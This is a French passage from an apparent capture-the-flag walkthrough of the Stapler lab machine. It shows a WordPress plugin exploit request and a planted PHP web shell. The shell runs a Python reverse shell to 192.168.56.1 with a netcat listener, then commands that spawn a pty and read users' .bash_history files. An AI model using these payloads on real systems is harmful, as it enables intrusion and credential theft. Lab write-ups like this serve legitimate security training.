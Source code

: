 Pour obtenir le path sur server web, il suffit de faire une requête échouant sur
le précedant exploit: \
[https://stapler:12380/blogblog/wp-admin/admin-ajax.php?action=ave_publishPost&title=444444444444&short=rnd&term=rnd&thumb=test](https://stapler:12380/blogblog/wp-admin/admin-ajax.php?action=ave_publishPost&title=4444444444444444&short=rnd&term=rnd&thumb=test)

On a donc un script php qui prend un paramètre GET "cmd" et qui exécute son
contenu en shell exec, on plante alors le reverse shell:

\pagebreak

- Ressource: [http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

Sur notre pc: `nc -lvvp 443` \ 

Sur le navigateur: \
[https://stapler:12380/blogblog/wp-content/uploads/shell.php?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22192.168.56.1%22,443));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27](https://stapler:12380/blogblog/wp-content/uploads/shell.php?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22192.168.56.1%22,443));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27)

On récupère alors un shell. Il ne reste plus qu'à faire l'élévation de priviliège comme précedemment:
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
cd /home
find -name ".bash_history" -exec cat {} \;
```
